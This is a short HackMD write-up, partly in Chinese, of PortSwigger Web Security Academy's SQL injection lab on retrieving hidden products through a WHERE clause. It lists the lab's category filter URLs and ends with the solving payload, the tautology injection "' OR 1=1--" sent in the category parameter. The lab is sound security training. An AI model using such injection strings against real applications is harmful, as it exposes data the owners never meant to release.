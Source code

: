 ```yaml
---
title: 'PortSwigger Web Security LAB'
disqus: hackmd
---
```


PortSwigger Web Security LAB (持續更新中..)
===


# Table of Contents

[TOC]

# SQL injection

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
![image](https://hackmd.io/_uploads/SyKB9UMKT.png)

https://0a1e003a0438320b808a627a00be00fb.web-security-academy.net/

![image](https://hackmd.io/_uploads/H1_ucIztp.png)

### Solution
#### category
1. ALL: https://0a1e003a0438320b808a627a00be00fb.web-security-academy.net/
2. Accessories: /filter?category=Accessories
3. Corporate gifts: /filter?category=Corporate+gifts
4. Gifts: /filter?category=Gifts
5. Pets: /filter?category=Pets

#### product
#### /product?productId=6
![image](https://hackmd.io/_uploads/rkCoeDGta.png)
> [!NOTE]
>:brain: 思考邏輯:\
>題目要求 display one or more unreleased products，所以從category下手
 
### Solved
#### /filter?category=%27+OR+1=1--
![image](https://hackmd.io/_uploads/S1vN-wGYp.png)

![image](https://hackmd.io/_uploads/SJXLZPMta.png)
